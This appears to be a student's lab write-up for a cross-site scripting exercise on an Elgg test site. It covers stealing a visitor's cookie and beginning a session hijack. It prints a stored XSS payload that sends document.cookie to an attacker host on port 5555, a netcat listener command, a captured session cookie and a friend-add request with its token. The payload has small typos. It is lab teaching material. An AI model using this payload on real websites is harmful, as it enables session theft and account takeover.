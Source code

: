 
## Task 3 : Stealing cookies from the victim’s machine
- provide code in the 'about me' section 
  - obtain the cookie without having to be preset when the account of user11 is visited. 
- injects a code that basically is a `GET request` for an image and also adds the cookie of the victim in the url itself.

```js
// send out the cookies using http GET
<script>
document.write('<img src=http网址attackerIP:5555?c= ' + escape(decument.cookie) + ' >');
</script>
```

- when the browser tries to load the image from the URL in the `src` field
- an `HTTP GET request` sent to the attacker’s machine.
    - in the mean time, it sends the cookies to the `port 5555` of the attacker’s machine


- the attacker has a TCP server listening to the same port.
    - `$ nc -l 5555 -v`
- The server can print out whatever it receives.
- The next time someone on the web application, say alice visits the profile of user11, the code gets executed and the attacker gains the cookie for himself. The nc output seems like -


```
// The cookie starts after %3D.

GET /?c=Elgg%3Dtlgbp3diifsf0007299puq2kr1 HTTP/1.1
Host: 192.168.56.4:1234
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```
---

## Task 4 : session hijacking using the stolen cookies
- stealing the session of a legitimate user by using their cookie and then add the victim as a friend. 

### capture the GET request packet
- the process of adding a friend has to be known to the attacker. 
  - the attacker creates another account say samy. 
  - This account can be added as a friend to user11's account to observe the process of adding a friend. 
- The attacker logs in to the account of samy and visits user11. 
  - Then he enables the inspect mode of the browser
  - watch the requests and cookies as he adds user11 as a friend to samy. 
- The friend adding process then shows a `GET request`
  - `http网址www.xsslabelgg.com/action/friends/add?friend=43&__elgg_ts=15281&__elgg_token=f0aaabcel`
  -                                                 userid &   Time Stamp  &  Security Token
